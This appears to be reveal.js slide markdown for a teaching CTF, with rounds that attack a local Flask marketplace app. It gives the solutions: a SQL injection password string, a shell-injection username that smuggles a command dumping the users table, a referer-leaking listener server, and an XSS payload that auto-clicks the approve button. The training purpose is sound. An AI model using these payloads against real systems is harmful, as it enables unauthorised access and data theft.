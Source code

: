 ## Marketplace CTF



## What is it?
Find security holes in apps.

Multiple rounds getting harder each round.

Around 15 mins per round.

Followed by discussion.



## Don't worry
If you can't get the answers.

Learning and actually doing vulnerabilities is the point of this.



## To run
Set up a python virtualenv (eg: marketplace-ctf)

Install:

```bash
pip install Flask
pip install python-memcached
```



## Also
Optional:

```bash
brew install phantomjs
```



## Although...
All things are local and you could just open the db or the secret file or whatever... and read it.

That's not really the point is it?



## Do not
DOS

rm -rf

Be a meanie



## Round 1
My cool app requires a username and password to get in. It's really, really well protected (not).

Goal: **Log in**



## Round 1
SQL Injection

set password to:

```sql
' OR '1
```



## Round 2
The admin user keeps forgetting their password. So I added a hint to remind them.

Goal: **Log in**



## Round 2
Shell injection

set username to:

```bash
admin;sqlite3 the.db "SELECT * FROM users";#
```



## Round 3
We've written this cool way to review web apps. Add an app as some JSON and reviewers will access the review page. Reviewers will visit any URL given in the JSON.

Goal: **Access the review page**



## Round 3
Referer leaking and (almost) session fixation

upload an app format:

```json
{"url": "http://localhost:9999"}
```



## Round 3
Then run a server that looks like this:

```python
from flask import Flask, request
app = Flask(__name__)

@app.route('/')
def test():
    print request.headers
    return 'done'

if __name__ == '__main__':
    app.debug = True
    app.run(host='0.0.0.0', port=9999)
```

At:

```http://localhost:9999```



## Round 4
So we've closed down the whole in Round 3. And added a description field where you can add some HTML. Also actually added a working Approve and Deny button.

Goal: **Approve your app**



## Round 4
XSS

```json
{"url": "http://foo.com",
"description": "&lt;script>window.onload = function() {
    document.getElementsByTagName('input')[1].click();
}&lt;/script>"}
```

* Note: < should not be escaped, but markdown > reveal.js hates me.



## Round 5
To come




## Round 6
To come



## Round 7
This one is homework, give it a try if you like, not for today.




## Security bugs
There is a classification of security bugs.

https://wiki.mozilla.org/Security_Severity_Ratings

A very small portion of security bugs use this clasification, we should do that more.



## By category
- wsec-authentication: 4
- wsec-authorization: 0
- wsec-cookie: 1
- wsec-crossdomain: 1
- wsec-crypto: 1
- *wsec-csrf: 11*
- wsec-disclosure: 2
- wsec-dos: 1
- wsec-errorhandling: 1
- wsec-impersonation: 4
- wsec-injection: 0
- wsec-input: 0
- wsec-logging: 0
- wsec-other: 6
- wsec-session: 1
- wsec-sqli: 0
- *wsec-xss: 33*

